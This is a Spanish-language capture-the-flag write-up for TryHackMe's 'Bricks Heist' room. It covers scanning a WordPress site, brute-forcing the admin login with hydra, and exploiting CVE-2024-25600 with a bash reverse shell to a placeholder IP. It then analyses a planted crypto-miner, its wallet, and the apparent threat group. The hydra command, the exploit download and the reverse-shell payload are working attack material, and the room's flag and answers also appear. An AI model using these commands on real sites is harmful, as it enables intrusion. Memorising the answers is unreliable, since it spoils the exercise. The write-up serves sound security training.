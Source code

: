 ```yaml
---
title: "TryHack3M: Bricks"
platform: "HTB"
publishedAt: 2025-05-22
cover: "/images/ctf/nota3-cover.webp"
---
```


---


![image.png](/images/ctf/nota3-0.webp)


![image.png](/images/ctf/nota3-1.webp)


# 🧱 Bricks Heist – TryHackMe (Write-up)


![image.png](/images/ctf/nota3-2.webp)


## 🕵️ Introducción


Un sitio web WordPress fue comprometido. Nuestra misión: identificar el punto de entrada, recuperar acceso como administrador, detectar actividad maliciosa (minería), y rastrear al grupo de amenazas involucrado.


---


## 🔍 1. Escaneo inicial


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Servicios expuestos:

- 22: SSH
- 80: WebSockify (error 405)
- 443: WordPress 6.5
- 3306: MySQL (sin acceso)

---


## 🧱 2. Enumeración de WordPress

- Se detecta **tema activo: Bricks**
- Vulnerabilidad conocida: **CVE-2024-25600**
- Exploit público descargado desde GitHub

---


## 🔓 3. Acceso administrativo


Se obtuvo login con `administrator`, mediante fuerza bruta con `hydra`:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💣 4. Exploiting CVE-2024-25600


Se usó el script:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Ejemplo:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py \
  --url https://bricks.thm \
  --username administrator \
  --password TU_PASS \
  --cmd "bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'"
```


Se obtuvo **shell interactiva**.


---


## 🐚 5. Post-explotación


### Flag encontrada:


```plain text
css
CopyEdit
/var/www/html/650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 6. Proceso y servicio sospechoso


### Proceso:


```plain text
pgsql
CopyEdit
nm-inet-dialog
```


### Servicio malicioso:


```plain text
CopyEdit
ubuntu.service - TRYHACK3M
```


Verificado vía:


```shell
bash
CopyEdit
systemctl status ubuntu.service
```


---


## 📄 7. Log del miner


Log activo ubicado en:


```plain text
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


📌 **Respuesta (formato** **`xxxx.xxxx`****)**:


```plain text
pgsql
CopyEdit
inet.conf
```


---


## 💰 8. Wallet del miner


Del archivo `inet.conf`:


```plain text
text
CopyEdit
ID: WW1NeGNY...
```


Base64 → doble decode → wallet final:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


---


## 🕵️‍♂️ 9. Threat group


Wallet está asociada con el grupo de ransomware:


**LockBit**


(Confirmado por búsquedas OSINT y análisis de blockchain)


---


## ✅ Conclusión


Este CTF fue un excelente caso realista que combinó:

- Enumeración
- Explotación de CVE
- Análisis forense de logs y procesos
- Técnicas OSINT

Una gran práctica para pentesters y analistas de amenazas.

